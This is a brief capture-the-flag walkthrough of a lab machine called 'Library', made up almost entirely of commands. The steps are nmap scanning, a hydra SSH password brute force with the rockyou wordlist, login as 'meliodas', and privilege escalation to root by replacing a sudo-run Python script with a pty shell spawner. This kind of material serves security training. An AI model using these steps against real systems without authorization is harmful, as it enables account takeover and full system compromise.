






# Library

```bash
furious 10.10.254.215
sudo nmap -sC -sV -p 22,80 10.10.254.215 -oN targeted
```



## 80



we have a posible user: Meliodas

we enter into http://10.10.61.126/robots.txt



## ssh

we use hydra in order to find a password for *`meliodas`* user

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.61.126 ssh -V -f -t 64
```


```bash
ssh meliodas@10.10.61.126
cat user.txt
```



```bash
sudo -l
cat /home/meliodas/bak.py
```

we don't have permision to edit the file but is our Home directory so we could errase it.



```python
rm bak.py
echo "import pty; pty.spawn('/bin/bash')" > bak.py
sudo /usr/bin/python /home/meliodas/bak.py
cat /root/root.txt
```

